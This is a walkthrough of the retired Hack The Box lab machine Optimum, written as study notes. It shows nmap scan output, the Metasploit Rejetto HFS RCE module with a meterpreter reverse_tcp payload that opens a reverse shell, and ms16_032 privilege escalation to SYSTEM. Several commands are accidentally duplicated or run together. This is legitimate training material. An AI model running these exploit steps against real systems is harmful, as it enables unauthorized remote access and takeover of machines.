



Type: #windows
Level: #easy
Link: <https://www.hackthebox.eu/machines/Optimum>
Tags : #TCM
Tools: [[NMAP]] [[METASPLOIT]] 

## Pentesting of retired HTB VM Optimum
### Following walkthrougt of TCM on udemy

### Scanning
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 05:51 EDT
Nmap scan report for 10.10.10.8
Host is up (0.040s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Microsoft Windows 2012|7|8|Phone|2008|8.1|Vista (91%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (85%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   46.04 ms 10.10.14.1
2   44.08 ms 10.10.10.8Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 05:51 EDT
Nmap scan report for 10.10.10.8
Host is up (0.040s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Microsoft Windows 2012|7|8|Phone|2008|8.1|Vista (91%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (85%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   46.04 ms 10.10.14.1
2   44.08 ms 10.10.10.8
```
### Enumeration

For now we have a port 80 open, which probably mean web server, a quick check to the IP address gave a a web interface for a web file server :


Some information disclosure : `HttpFileServer version 2.3`

The login button redirect to an login popup on this url : `http://10.10.10.8/~login`

The `Get list` button gave me a URL that seems exploitable for injection `http://10.10.10.8/?tpl=list&folders-filter=\&recursive`

searchsploit show an RCE available on th 2.3 version :



### Exploitation

Going from here we can try via metasploit the RCE :

```
msfconsole
search rejetto
use exploit/windows/http/rejetto_hfs_execuse exploit/windows/http/rejetto_hfs_exec
options
set RHOST = 10.10.10.8
set payload windows/meterpreter/reverse_tcp
options
run
```
And we got a reverse shell :



It appears that we are not admin :
```
getuid
Server username: OPTIMUM\kostas
```
So we will need to do some priv-es.

Using suggester :
```
search suggester
use post/multi/recon/local_exploit_suggesterpost/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 38 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > run
```
Let's try ms16_032 :
```
use exploit/windows/local/ms16_032_secondary_logon_handle_privescuse exploit/windows/local/ms16_032_secondary_logon_handle_privesc
options
set session 1
run
```
Privesc seems to work, doing a getuid gave me "System"

Going back to the target shell I can access the root flag